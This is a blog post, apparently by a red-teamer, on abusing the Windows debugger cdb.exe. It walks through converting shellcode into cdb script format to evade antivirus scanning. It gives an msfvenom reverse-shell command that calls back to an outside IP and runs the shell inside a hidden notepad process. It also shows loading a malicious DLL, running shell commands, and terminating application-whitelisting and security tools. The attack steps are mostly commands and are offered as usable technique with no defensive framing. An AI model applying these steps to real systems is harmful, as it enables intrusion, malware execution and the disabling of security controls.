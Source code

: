 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting.

## Converting the Shellcode

I felt as though the unusual shellcode syntax may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert to the shellcode used in the article.

    #Input
    \x6a

    #Conversion formula
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(stripped(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also extremely useful in evading AV scanning your file due to the unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

1. Generate shellcode using msfvenom

    msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

2. Download the aforementioned script and replace the shellcode with yours then run the script

    python3 script.py > test.wds

3. Send it over to the target machine and use the following command

    cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach to a running process, it can be anything. I'll be attaching to notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

You can also hit CTRL+C then 'q' in the cdb console and it'll exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cbd to load a DLL. The DLL is loaded inside cbd not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our inject DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cbd to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell hostname

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate and gave me a window of about 30 seconds to run any executable I want, until it started back up again.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

